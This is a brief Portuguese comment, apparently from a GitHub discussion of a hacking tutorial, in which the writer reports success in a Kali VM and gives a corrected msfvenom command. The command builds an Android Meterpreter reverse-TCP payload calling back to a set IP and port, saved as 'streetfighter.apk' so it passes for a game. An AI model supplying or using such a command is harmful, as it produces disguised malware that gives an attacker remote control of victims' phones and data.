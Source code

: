 Fiz em uma vm kali e deu certo mas tive que fazer um comando diferente do que ta no tutorial para cria o .apk direito. Este foi o comando "msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=444 --platform android R > streetfighter.apk"
